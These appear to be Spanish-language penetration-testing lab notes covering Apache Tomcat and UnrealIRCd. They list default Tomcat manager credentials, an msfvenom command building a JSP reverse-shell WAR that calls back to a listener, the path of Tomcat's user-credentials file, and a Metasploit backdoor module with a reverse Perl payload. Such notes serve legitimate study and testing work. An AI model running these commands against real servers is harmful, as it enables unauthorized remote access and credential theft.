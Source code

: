 17.- Apache Tomcat

servidor web mas popular para Java.

tiene interfaz web llamada Adaministra

/manager -> tomcat:s3cret

creo un reverse.var con msfvenom

msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.42.133 LPORT=443 -f war -o reverse.war

nos  ponemos en escucha con netcat en el puerto 443

subimos el reverse.war a tomcat

ruta donde podemos ver usuarios y contraseñas, cuando ya estamos dentro de la máquina.

/etc/tomcat9/tomcat-users.xml

-------------------------------------------------------------------------------

18.- UnrealIRCd

Puede estar corriendo en puertos como 6667, 6697

servidor de IRC (Internet Relay Chat) muy popular, especialmente en entornos de comunidades, hacking y labs de ciberseguridad.

UnrealIRCd es una implementación del protocolo IRC, que permite crear servidores de chat

Se ejecuta en Linux, OS X y Windows

En Linux, UnrealIRCd:
- Es un servicio/daemon que escucha en un puerto   (normalmente 6667 o 6697 para TLS)

- Se suele instalar en /home/<usuario>/unrealircd/ o   /etc/unrealircd/

- Tiene un archivo de configuración: unrealircd.conf


Rutas comunes:

Ruta	                                              Descripción
/etc/unrealircd/unrealircd.conf   Config principal
/usr/sbin/unrealircd	                         Binario ejecutable del servidor
/var/log/unrealircd/	                         Logs del servicio
~/.unrealircd/	                        Configuración por usuario                                                                    (ocasional)

ver versión

nmap -sV --script irc-info -p 6667 192.168.42.167

UnrealIRCd 3.2.8.1 

en metasploit 

exploit/unix/irc/unreal_ircd_3281_backdoor 

con el payload 

payload/cmd/unix/reverse_perl
